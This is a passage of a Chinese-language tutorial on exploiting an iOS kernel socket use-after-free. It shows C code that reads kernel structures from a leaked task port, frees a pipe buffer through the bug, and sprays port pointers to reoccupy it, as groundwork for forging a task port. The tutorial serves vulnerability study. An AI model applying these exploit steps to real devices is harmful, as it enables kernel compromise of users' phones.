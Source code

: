 ```c
}
```

我们现在想要实现释放Pipe缓冲区只需要先获取它的地址，然后IOSurface堆喷使用这个Pipe缓冲区地址构造的数据，通过调用函数`setsockopt()`设置整个`in6_pktinfo`结构体数据为`0`就可以把这个Pipe缓冲区给释放掉

根据我们泄露出来的`Task Port`获取Pipe缓冲区地址，注意不同的系统版本偏移需要有所调整

```c
uint64_t task = rk64_check(self_port_addr + koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT));
uint64_t proc = rk64_check(task + koffset(KSTRUCT_OFFSET_TASK_BSD_INFO));
uint64_t p_fd = rk64_check(proc + koffset(KSTRUCT_OFFSET_PROC_P_FD));
uint64_t fd_ofiles = rk64_check(p_fd + koffset(KSTRUCT_OFFSET_FILEDESC_FD_OFILES));
uint64_t fproc = rk64_check(fd_ofiles + fds[0] * 8);
uint64_t f_fglob = rk64_check(fproc + koffset(KSTRUCT_OFFSET_FILEPROC_F_FGLOB));
uint64_t fg_data = rk64_check(f_fglob + koffset(KSTRUCT_OFFSET_FILEGLOB_FG_DATA));
uint64_t pipe_buffer = rk64_check(fg_data + koffset(KSTRUCT_OFFSET_PIPE_BUFFER));
printf("[*] pipe buffer: 0x%llx\n", pipe_buffer);
```

函数`free_via_uaf()`与函数`rk64_via_uaf()`前面部分一样，都是通过创建一堆存在漏洞的Socket，然后去堆喷，只不过这里还要多一步填充结构体`in6_pktinfo`数据，可以看到我们填充的是一个全为`0`的数据，那么就会触发它进行释放操作

```c
int free_via_uaf(uint64_t addr) {
    ...
    
    struct in6_pktinfo *buf = malloc(sizeof(struct in6_pktinfo));
    memset(buf, 0, sizeof(struct in6_pktinfo));
    int ret = set_pktinfo(sockets[found_at], buf);
    free(buf);
    return ret;
}
```

前期的准备工作到这里就差不多了，我们接下来开始进入一个关键环节：伪造一个Port

## 7. 伪造Task Port

**备注：因为SMAP是iPhone 7开始引入的安全机制，内核访问用户态的内存会被限制，而我的测试环境是iPhone 6，所以前面我淡化了SMAP的存在感，但接下来该面对还是要面对**

申请一个`target`用于伪造Port，函数`find_port_via_uaf()`通过OOL数据自动转换Port为内核态地址的机制获取Port的内核态地址`target_addr`，函数`free_via_uaf()`将`pipe_buffer`给释放掉，但管道句柄`fds[0]`和`fds[1]`依旧拥有对这个内核缓冲区的读写权限

```c
mach_port_t target = new_port();
uint64_t target_addr = find_port_via_uaf(target, MACH_MSG_TYPE_COPY_SEND);
ret = free_via_uaf(pipe_buffer);
```

这个循环的操作有点像函数`find_port_via_uaf()`，利用自动转换的`Task Port`内核态地址占位刚才释放掉的`pipe_buffer`，因为我们之前写入了`8`字节，所以这里读取`8`字节就是`pipe_buffer`的前`8`个字节数据，判断一下使用两种方法获取到的Port内核态地址是否相同，如果相同就退出循环，如果不同说明堆喷不成功，复位下标继续循环

```c
mach_port_t p = MACH_PORT_NULL;
for (int i = 0; i < 10000; i++) {
    p = fill_kalloc_with_port_pointer(target, 0x10000/8, MACH_MSG_TYPE_COPY_SEND);
    uint64_t addr;
    read(fds[0], &addr, 8);
    if (addr == target_addr) { // if we see the address of our port, it worked
        break;
    }
    write(fds[1], &addr, 8); // reset buffer position
    mach_port_destroy(mach_task_self(), p); // spraying didn't work, so free port
    p = MACH_PORT_NULL;
}
```
